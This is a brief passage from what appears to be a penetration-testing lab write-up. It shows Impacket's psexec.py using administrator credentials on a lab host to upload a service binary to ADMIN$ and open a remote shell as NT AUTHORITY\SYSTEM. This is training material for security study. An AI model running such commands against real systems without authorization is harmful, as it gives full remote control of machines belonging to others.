 <img src="./assets/9.png" style="zoom:100%;" />

get shell with administrator account

```cmd
root@attackdefense:~# psexec.py administrator@10.4.24.224
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.24.224.....
[*] Found writable share ADMIN$
[*] Uploading file AZZOIRHH.exe
[*] Opening SVCManager on 10.4.24.224.....
[*] Creating service OSiy on 10.4.24.224.....
[*] Starting service OSiy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```
